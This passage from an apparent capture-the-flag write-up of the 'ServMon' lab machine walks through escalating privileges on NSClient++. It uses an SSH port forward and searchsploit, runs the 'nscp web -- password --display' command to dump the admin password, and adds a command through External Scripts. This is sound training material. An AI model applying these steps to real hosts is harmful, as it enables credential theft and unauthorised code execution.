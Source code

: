 ```bash
ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
lsof -i:8443
# https://localhost:8443/index.html#/

searchsploit nsclient
searchsploit -x 46802.txt
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I'm going to try to **Escalate privileges** manually by following the script I just found with `searchsploit`. The first step is to use the `nscp` tool to obtain the **administrator** password and access the **NSClient++** administration panel. The second step is to access the **Settings** tab, where I'm asked to authenticate myself. The third step is to use the **External Scripts** option and add a new one, now I just need to assign a name to the **key**, and I can specify the execution of a command (very complex due to the use of **Local Port Forwarding**) or script in the **value** field.

```cmd
# run the following that is instructed when you select forget password
nscp web -- password --display
# Current password: ew...OT

# https://localhost:8443/index.html
# https://localhost:8443/index.html#/settings

# https://localhost:8443/index.html#/settings/settings/external scripts
# :) All OK
# settings --> external scripts --> scripts --> Add new
# Malicious command or file
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
